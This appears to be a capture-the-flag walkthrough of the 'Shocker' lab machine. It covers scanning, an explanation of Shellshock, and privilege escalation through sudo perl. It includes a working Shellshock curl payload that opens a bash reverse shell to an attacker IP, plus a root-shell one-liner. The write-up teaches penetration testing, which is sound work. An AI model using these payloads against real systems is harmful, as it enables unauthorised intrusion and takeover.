



# Shocker (Linux)

## Enumeration

```
rustscan --ulimit 5000 10.129.1.175 -- -sC -sV -o port_scan

PORT     STATE SERVICE REASON  VERSION                                                                                                                                                    
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))                                                                                                                             
| http-methods:                                                                                                                                                                           
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Examine Port 80 - Apache Server



Accessing Port 80 via the browser, we only see a picture. Guess we have to enumerate the webserver and search for other directories using `gobuster`:

```
└──╼ $ gobuster dir -u "10.129.1.175" -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.129.1.175
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/19 08:47:59 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/server-status (Status: 403)
```

Gobuster reveals two additional directories: `cgi-bin` and `server-status`. While server-status is rather not interesting, cgi-bin can lead to serious vulnerabilities such as ShellShock. 

### Shellshock
Shellshock is effectively a Remote Command Execution vulnerability in Bash that is caused by the fact that BASH (versions 1.0.3 - 4.3) incorrectly executes trailing commands when it imports a function definition stored in an environment variable:

```
env x= '() { :;}; echo vulnerable' bash -c "echo test"
```

Vulnerable versions of Bash interpret `x='() { :;};'` as a function definition for a function named x. The function body is simply `:` (colon), which is a Bash-builtin that does nothing and returns with exit code 0. While importing the function, it also executes the code following it - `echo vulnerable`. The overall output is 

```
vulnerable
test
```

### Exploiting Shellshock

As the machine is also called Shocker, I assume that this is the vulnerability that we should exploit. So let's see if we can find some vulnerable scripts in the directory.

Those scripts are mostly written in bash, perl, python or have the cgi extension. We can use gobuster again to scan the directory!

```
 gobuster dir -u "10.129.1.175/cgi-bin/" -w /usr/share/wordlists/dirb/common.txt -x sh,pl,cgi,py
===============================================================                                                                                                                           
Gobuster v3.0.1                                                                                                                                                                           
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.129.1.175/cgi-bin/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     cgi,sh,pl,py
[+] Timeout:        10s
===============================================================
2021/01/19 09:13:54 Starting gobuster
===============================================================
 /user.sh (Status: 200)

```

If we access the file via the browser, it asks us to download the response of the script:

```
└──╼ $ cat user.sh              
Content-Type: text/plain

Just an uptime test script

 03:16:23 up 32 min,  0 users,  load average: 0.19, 0.15, 0.09
```

The script apparently executes the command `uptime`. 

*When a webserver uses the Common Gateway Interface (CGI) to handle a document request, it passes various details of the reuqest to a handler program in the environment variable list. For example, the variable HTTP_USER_AGENT has a value that, in normal usage, identifies the program sending the request. If the request handler is a Bash script, or if it executes one for example using the system(3) call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted server request. Security documentation for the widely used Apache web server states "CGI scripts can ... be extremely dangerous if they are not carefully checked." and other methods of handling web server requests are often used* (https://github.com/opsxcq/exploit-CVE-2014-6271)

## Gaining Initial Foothold

To establish a reverse shell, we first set up our netcat listener and then execute following:

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/10.10.14.26/4444 0>&1" http://10.129.1.175/cgi-bin/user.sh
```

This will exploit the Shellshock vulnerability and create a reverse shell for us. Of course this can also be done with Burp or some scripts or even modules from Metasploit. But I usually prefer to do it manually.



## Privilege Escalation

Checking the available commands that can be executed with sudo, we see that our current user shelly can execute perl with sudo privileges.
```
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Now it's rather easy:

```
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
# id
uid=0(root) gid=0(root) groups=0(root)
```

We are root!